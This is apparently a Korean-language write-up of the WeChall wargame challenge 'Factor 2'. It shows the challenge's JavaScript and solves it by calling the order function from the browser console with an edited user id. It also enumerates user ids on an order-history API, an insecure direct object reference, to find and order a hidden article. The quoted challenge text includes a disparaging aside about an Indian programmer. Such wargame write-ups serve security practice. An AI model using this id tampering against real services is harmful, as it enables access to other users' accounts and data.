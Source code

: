 ```yaml
---
title : "Wechall - Factor 2"
categories : [Wargame, Wechall]
---
```


## Factor 2
<hr style="border-top: 1px solid;"><br>

```
We have outsourced an application to an indian programmer and got disappointed.
The application is not multi language capable as agreed, but the worst is...
One of our coworkers could completely circumvent the two-factor authentication within minutes.
Can you do this as well?

To prove your success you have to order a special article.
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```js
window.gurroga.changeTo_historie = function() {
	console.log('changeTo_historie()');
	$('#historygrid').jsGrid({
		width: '100%',
		sorting: true,
		paging: false,
		autoload: true,
		controller: {
			loadData: function() {
				var d = $.Deferred();
				$.ajax({
					url: "../backend/api/bestellhistorie.php?user="+window.gurroga.USER.id,
					dataType: "json"
				}).done(function(response) {
					d.resolve(response.result);
				});
				return d.promise();
			}
		},
		fields: [
			{name: "article.title", type: "text", title: "Artikel"},
			{name: "article.amt", type: "text", title: "Stückzahl"},
			{name: "amt", type: "text", title: "Bestellmenge"},
			{name: "ordered_at", type: "text", title: "Bestelldatum"},
			{name: "delivered_at", type: "text", title: "Lieferdatum"},
		]
  	});
}

window.gurroga.order = function() {
	console.log('order()');
	var article = $('#bestellartikel').val();
	var amount = $('#bestellmenge').val();
	var postData = {user: window.gurroga.USER.id, id: article, amt: amount};
	$.post('../backend/api/bestellen.php', postData)
	.done(function(result){
		console.log(result);
		window.gurroga.showMessage(result);
	})
	.fail(function(result){
		console.error(result);
		window.gurroga.showError(result.responseText);
	});
};
```

<br>

처음엔 주문을 하라길래 ```gurroga.order()```를 하였음. 그런데 다음과 같은 에러가 발생함.

<br>

```javascript
Uncaught TypeError: Cannot read properties of null (reading 'id')
at Object.window.gurroga.order (factor2.js:158)
at <anonymous>:1:9
```

<br>

그래서 factor2.js:158로 가보니 아래에 있는 코드가 나왔음.
: ```var postData = {user: window.gurroga.USER.id, id: article, amt: amount};```

<br>

그래서 변수 값을 조정함. -> ```{user: 1, id: 1, amt: 1}```

<br>

```
gurroga.order() 
-> 
<div>Vielen Dank für Ihre Bestellung!</div>
factor2.js:21 showMessage() <div>Vielen Dank für Ihre Bestellung!</div>
```

<br>

주문은 됬는데 문제에서 특별한 article를 주문하라 했음. 근데 코드를 보니 아래와 같은 코드가 있음.
: ```url: "../backend/api/bestellhistorie.php?user="+window.gurroga.USER.id```

그래서 ?user=1로 이동하였음.
: ```{"status":"success","result":[{"article":{"id":1,"name":"bueroklammern","amt":100,"title":"B\u00fcroklammern"},"amt":1,"ordered_at":"2018-10-29","delivered_at":"2018-10-30"}]}```

<br>

```?user=2 ~ ?user=6```까지 이동해보았더니 ```?user=6```에서 아래와 같은 코드가 나옴.  
: ```{"article":{"id":5678363,"name":"solution","amt":1,"title":"Challenge solution for Factor 2"}```

따라서 id 값을 5678363으로 수정하고 user를 6으로 수정한 후 order를 해보니 성공.
: ```{user: 6, id: 5678363, amt: 1}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
